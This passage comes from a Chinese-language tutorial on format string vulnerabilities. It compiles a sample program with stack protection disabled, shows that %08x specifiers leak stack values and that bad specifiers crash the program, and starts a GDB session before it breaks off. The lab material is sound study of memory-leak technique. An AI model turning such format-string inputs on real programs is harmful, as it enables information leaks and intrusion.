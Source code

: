 ```bash
$ gcc -m32 -fno-stack-protector -no-pie -o leakmemory leakmemory.c
```

---

### 1.3.1 使程序崩溃

崩溃原因是因为栈上不可能每个值都对应了合法的地址，所以总是会有某个地址可以使得程序崩溃（地址越界访问）。

<center><img src="./img/格式化字符串崩溃.PNG" ></center>

---

### 1.3.2 查看栈内容

首先测试一下执行效果：

```bash
$ ./leakmemory

%08x.%08x.%08x
```

执行结果
```bash
./leakmemory
%08x.%08x.%08x
00000001.22222222.ffffffff.%08x.%08x.%08x
ffbbe980.000000c2.f7e4c79b
```


---

为了更加细致的观察,使用 GDB 调试。

```bash
#使用 gdb 进行调试
$gdb leakmemory
# 下断点
gdb-peda$ b printf
    Breakpoint 1 at 0x8048330
#开始执行程序
gdb-peda$ r
    Starting program: /home/giantbranch/tmp/leakmemory
    ffb4e190.000000c2.f7d8f79bgiantbranch@ubuntu:~/tmp$


```

